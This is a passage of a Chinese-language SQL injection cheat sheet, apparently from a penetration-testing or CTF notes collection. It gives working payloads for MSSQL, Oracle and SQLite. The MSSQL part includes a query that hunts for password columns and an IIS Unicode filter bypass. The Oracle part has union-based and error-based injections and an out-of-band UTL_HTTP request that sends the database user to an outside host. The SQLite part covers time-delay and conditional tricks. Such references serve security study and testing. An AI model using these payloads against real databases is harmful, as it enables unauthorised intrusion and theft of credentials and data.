 - 快速查找带关键字的表
    - `SELECT sysobjects.name as tablename, syscolumns.name as columnname FROM sysobjects JOIN syscolumns ON sysobjects.id = syscolumns.id WHERE sysobjects.xtype = 'U' AND (syscolumns.name LIKE '%pass%' or syscolumns.name LIKE '%pwd%' or syscolumns.name LIKE '%first%');`

- Unicode绕过
    - IIS 对 Unicode 编码是可以解析的，即 s%u0065lect 会被解析为 select

## Oracle

- `SELECT`语句必须包含`FROM`
    - 用`dual`表
- 子字符串：
    - `SUBSTR("abc", 1, 1) => 'a'`
- 空白字元
    - `00 0A 0D 0C 09 20`
- IF语句
    - `IF condition THEN true-part [ELSE false-part] END IF`
- 注解：
    - `--`
- 其它
    - `SYS.DATABASE_NAME`
        - current database
    - `USER`
        - current user
    - `SELECT banner FROM v$version where rownum=1`
        - database version
- 库名
    - `SELECT DISTINCT OWNER FROM ALL_TABLES`
- 表名
    - `SELECT OWNER, TABLE_NAME FROM ALL_TABLES`
- Column
    - `SELECT OWNER, TABLE_NAME, COLUMN_NAME FROM ALL_TAB_COLUMNS`
- Union Based
    - Column型态必须相同
    - 可用`NULL`来避免
    - `UNION SELECT 1, 'aa', null FROM dual`
- Error Based
    - `SELECT * FROM news WHERE id=1 and CTXSYS.DRITHSX.SN(user, (SELECT banner FROM v$version WHERE rownum=1))=1`
- Out of band
    - `UTL_HTTP.request('http://rs.panja.cc/'||(select user from dual))=1`

## SQLite

- 子字符串：
    - `substr(“abc",1,1)   =>   'a'`
- Ascii function:
    - `unicode('d') => 100`
- legth
    - `length('ab') => 2`
- Concatenation
    - `||`
    - `'a' || 'b' => 'ab'` 
- Time Delay
    - `randomblob(100000000)`
- 空白字元
    - `0A 0D 0C 09 20`
- Case when
    - SQLite没有`if`
    - 可以用`Case When ... Then ...`代替
    - `case when (条件) then ... else ... end`
- 注解
    - `--`